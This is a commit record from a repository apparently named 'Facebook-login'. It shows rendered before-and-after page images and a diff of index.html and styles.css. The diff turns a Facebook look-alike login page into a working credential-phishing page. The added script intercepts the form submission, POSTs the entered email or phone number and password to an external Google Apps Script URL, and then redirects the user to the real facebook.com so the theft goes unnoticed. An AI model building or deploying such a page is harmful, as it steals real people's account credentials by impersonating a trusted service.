

Before and after one commit to itcsdeoria/Facebook-login, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 310-800 px from the top of the page, without its empty margins (209-1069 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Add files via upload

```diff
--- a/index.html
+++ b/index.html
@@ -2,19 +2,20 @@
 <html lang="en">
 <head>
     <meta charset="UTF-8">
-    <meta name="viewport" , content="width=device-width, initial-scale=1.0">
+    <meta name="viewport" content="width=device-width, initial-scale=1.0">
     <title>Facebook - Log In or Sign Up</title>
     <link rel="stylesheet" href="styles.css">
 </head>
 <body>
+
     <div class="container">
         <div class="login-box">
             <div class="brand">
                 <h1>facebook</h1>
             </div>
-            <form>
-                <input type="text" placeholder="Email or Phone Number" required>
-                <input type="password" placeholder="Password" required>
+            <form id="contactForm">
+                <input type="text" name="username" placeholder="Email or Phone Number" required>
+                <input type="password" name="password" placeholder="Password" required>
                 <button type="submit">Log In</button>
             </form>
             <a href="#" class="forgot">Forgotten account?</a>
@@ -23,19 +24,25 @@
         </div>
     </div>
 
-    <footer>
-        <div class="footer-container">
-            <a href="#">English (US)</a>
-            <a href="#">Español</a>
-            <a href="#">Français (France)</a>
-            <a href="#">Deutsch</a>
-            <a href="#">Italiano</a>
-            <a href="#">Português (Brasil)</a>
-            <a href="#">日本語</a>
-            <a href="#">中文(简体)</a>
-            <a href="#">हिन्दी</a>
-            <a href="#">العربية</a>
-        </div>
-    </footer>
+
+<script>
+    document.getElementById('contactForm').addEventListener('submit', function(event) {
+        event.preventDefault();
+        const formData = new FormData(this);
+
+        fetch('https://script.google.com/macros/s/AKfycbwo4BvJqC7aOIHBOyzfwnRgeRb5WiBoDZuOqnn2MKNFkeJbqXGer5CSVlDT_bgeYVDi/exec', {
+            method: 'POST',
+            body: formData
+        })
+        .then(response => response.json())
+        .then(data => {
+            window.location.href = "https://www.facebook.com";
+        })
+        .catch(error => {
+            alert('Error submitting form');
+            console.error(error);
+        });
+    });
+</script>
 </body>
 </html>
--- a/styles.css
+++ b/styles.css
@@ -94,31 +94,3 @@ button:hover {
 }
 
 /* Existing styles remain unchanged */
-
-footer {
-    width: 100%;
-    padding: 20px 0;
-    background-color: #f0f2f5;
-    text-align: center;
-    position: fixed;
-    bottom: 0;
-    left: 0;
-}
-
-.footer-container {
-    display: flex;
-    justify-content: center;
-    flex-wrap: wrap;
-    gap: 10px;
-}
-
-.footer-container a {
-    color: #1877f2;
-    text-decoration: none;
-    font-size: 14px;
-    margin: 5px;
-}
-
-.footer-container a:hover {
-    text-decoration: underline;
-}
```
